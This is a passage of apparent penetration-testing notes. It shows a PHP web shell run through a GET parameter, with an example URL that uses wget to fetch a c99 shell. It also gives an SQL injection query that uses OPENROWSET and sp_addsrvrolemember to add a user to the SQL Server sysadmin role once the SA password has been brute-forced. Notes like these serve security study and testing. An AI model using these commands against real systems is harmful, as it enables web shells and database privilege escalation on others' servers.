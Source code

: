     If successful, it will then be possible to run system commands via the $_GET global.
    The following is an example of using wget to get a file:
    http://www.example.com/shell.php?command=wget
    http://www.example.com/c99.php.

### Use OPENROWSET to Escalate Privileges on the Microsoft SQL Server
- If you successfully brute-force the SA account password, then you can easy escalate your privileges with OPENROWSET
- Send an SQL injection query with the brute-forced SA password, and add your user to the sysadmin group using the sp_addsrvrolemember, as follows:

If you successfully Brute force the admin account password, you can use this password to easily escalate privileges with OPENROWSET. You must provide valid credentials to access the database and use OPENROWSET to escalate privileges. 

Try to send an SQL injection query with the Brute-forced admin password, and add your user to
the sysadmin group using the sp_addsrvrolemember, as follows:

sp_addsrvrolemember takes as parameters a user and a group to add the user

```
SELECT * FROM OPENROWSET('SQLOLEDB', 'Network=DBMSSOCN;
Address=;uid=sa;pwd=passw0rd', ‘SELECT 1; EXEC
master.dbo.sp_addsrvrolemember
''appdbuse'',''sysadmin''')
```



![image-20210913101151445](images/image-20210913101151445.png)

In the above query, SQLOLEDB is the OLE database for the MS SQL server, appdbuser is the new user that you try to add to the high privileged user group, sysadmin.

**Note**: Unlike SQL Server 2000, OPENROWSET is disabled on SQL Server 2005 by default. You need to enable it to test privilege-escalation.
